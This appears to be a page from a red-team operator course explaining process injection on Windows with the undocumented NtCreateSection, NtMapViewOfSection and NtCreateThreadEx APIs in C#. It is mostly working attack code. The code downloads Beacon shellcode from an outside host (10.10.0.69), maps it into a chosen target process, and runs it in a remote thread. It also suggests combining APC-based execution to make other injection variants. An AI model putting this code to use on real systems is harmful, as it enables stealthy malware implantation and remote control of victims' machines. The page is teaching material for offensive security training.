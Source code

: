 The Nt*Section set of APIs provides a nice alternative to VirtualAllocEx, WriteProcessMemory and VirtualProtectEx.  The big challenge with using these lower-level native APIs is that they're not officially documented, so we must rely on the efforts of individuals who perform reverse engineering on ntdll.dll to figure them out.  One such resource is [ntinternals.net](http://undocumented.ntinternals.net/index.html).

1.  Fetch the shellcode and create a new section within our current process.  The section has to be as large as the shellcode size.

```csharp
var shellcode = await client.GetByteArrayAsync("https://10.10.0.69/beacon.bin");

var hSection = IntPtr.Zero;
var maxSize = (ulong)shellcode.Length;

// Create a new section in the current process
Native.NtCreateSection(
    ref hSection,
    0x10000000,     // SECTION_ALL_ACCESS
    IntPtr.Zero,
    ref maxSize,
    0x40,           // PAGE_EXECUTE_READWRITE
    0x08000000,     // SEC_COMMIT
    IntPtr.Zero);
```

  

2.  Map the view of that section into memory of the current process.

```csharp
// Map that section into memory of the current process as RW
Native.NtMapViewOfSection(
    hSection,
    (IntPtr)(-1),   // will target the current process
    out var localBaseAddress,
    IntPtr.Zero,
    IntPtr.Zero,
    IntPtr.Zero,
    out var _,
    2,              // ViewUnmap (created view will not be inherited by child processes)
    0,
    0x04);          // PAGE_READWRITE

// Copy shellcode into memory of our own process
Marshal.Copy(shellcode, 0, localBaseAddress, shellcode.Length);
```

  

3.  Get a handle to the target process and map the same section into it.  This will automatically copy the shellcode from our current process to the target.

```csharp
// Get reference to target process
var target = Process.GetProcessById(4148);

// Now map this region into the target process as RX
Native.NtMapViewOfSection(
    hSection,
    target.Handle,
    out var remoteBaseAddress,
    IntPtr.Zero,
    IntPtr.Zero,
    IntPtr.Zero,
    out _,
    2,
    0,
    0x20);      // PAGE_EXECUTE_READ
```

  

4.  Create a new remote thread to execute the shellcode.

```csharp
// Shellcode is now in the target process, execute it (fingers crossed)
Native.NtCreateThreadEx(
    out _,
    0x001F0000, // STANDARD_RIGHTS_ALL
    IntPtr.Zero,
    target.Handle,
    remoteBaseAddress,
    IntPtr.Zero,
    false,
    0,
    0,
    0,
    IntPtr.Zero);
```

  

You should now have a Beacon running in the target process.

  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/process-injection/ntmapviewofsection/beacon.png)

  

  Think of all the APIs we've covered like items on a menu.  You can mix and match them to create your own style of injection.  For instance, you could spawn a process in a suspended state, use the Nt*Section APIs to map and copy the shellcode, and then QueueUserAPC or NtQueueApcThread to execute it.